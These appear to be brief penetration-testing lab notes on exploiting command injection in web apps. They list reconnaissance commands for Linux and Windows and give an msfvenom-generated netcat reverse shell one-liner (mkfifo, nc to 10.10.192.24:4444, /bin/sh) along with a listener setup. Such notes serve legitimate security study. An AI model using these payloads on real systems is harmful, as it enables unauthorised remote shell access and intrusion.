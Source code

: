 If WebApp User Inputs are accepted and run as System Commands

# Active Command Injection

If User Input is returned as HTML Element

Commands to test:

Linux
```
whoami
id
ifconfig/ip addr
uname -a
ps -ef
```

Windows

```
whoami
ver
ipconfig
tasklist
netstat -an
```


# Reverse Shell

=> Code to execute Code/Commands on the Target

Aim is for the Target to build a Connection to myself


**[msfvenom](msfvenom)** => creates and encodes a netcat reverse Shell (create an payload Command which has to run on the Target)

Create a Payload on the local Machine:

`msfvenom -p cmd/unix/reverse_netcat lhost=[localhost ip] lport=4444 R`

Output:

`mkfifo /tmp/pshz; nc 10.10.192.24 4444 0</tmp/pshz | /bin/sh >/tmp/pshz 2>&1; rm /tmp/pshz`

Start a [netcat](netcat) Listener on the Local Machine:

`nc -lvp 4444`

- use port from msfvenom

Run the Paylod Command on the Target:

`.RUN mkfifo /tmp/pshz; nc 10.10.192.24 4444 0</tmp/pshz | /bin/sh >/tmp/pshz 2>&1; rm /tmp/pshz`

We should get a connection with netcat